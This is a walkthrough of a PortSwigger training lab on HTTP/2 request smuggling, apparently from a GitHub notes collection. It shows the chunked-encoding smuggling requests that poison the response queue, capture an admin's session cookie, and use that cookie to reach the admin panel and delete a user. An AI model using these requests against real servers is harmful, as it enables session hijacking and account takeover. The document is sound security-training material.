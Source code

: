 # Response queue poisoning via H2.TE request smuggling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling) is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## Reproduction and proof of concept

1. Intercept home page and send the request to Repeater. Set Repeater (top most menu) to `Allow HTTP/2 ALPN override`.
2. Expand the Inspector's Request Attributes section and change the protocol to `HTTP/2`.
3. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an `HTTP/2` request using chunked encoding. 

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED
```

4. Every second request sent, receives a 404 response, confirming that the back-end appends the subsequent request to the smuggled prefix.
5. Create a request, which smuggles a complete request to the back-end server. The path in both requests points to a non-existent endpoint. This means that the request will always get a `404` response. Once the response queue is poisoned, this will make it easier to recognise any other users' responses that have successfully been captured.

```text
POST /x HTTP/2
Host: lab-id.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: lab-id.web-security-academy.net


```

_Note: Terminate the smuggled request properly by including the sequence `\r\n\r\n` after the Host header._

6. Send the request to poison the response queue. 
7. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Response codes other than `404` indicate a response intended for the admin user has successfully been captured. Repeat the process until a `302` response is captured containing the admin's new post-login session cookie.

![HTTP header smuggling](/_static/images/smuggling7.png)
    
_Note: If you receive some `200` responses but can't capture a `302` response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again. This whole process can take some time. It took me ten minutes._

6. Copy the stolen session cookie and use it to send a request to gain access to the `admin panel`:

```text
GET /admin HTTP/1.1
Host: 0a4900090385c6c5c058ef6800090039.web-security-academy.net
Cookie: session=hVyiIwVQdrDveY8dV6Il427xj1q8G17f
```

7. Send the request repeatedly until you receive a `200` response containing the admin panel.
8. In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`), then update the path in the request accordingly. Send the request to delete Carlos.

![HTTP header smuggling](/_static/images/smuggling8.png)

## Exploitability

An attacker will need to delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds. The connection to the back-end is reset every 10 requests. If the connection gets into a bad state, send a few normal requests to get a fresh connection. 
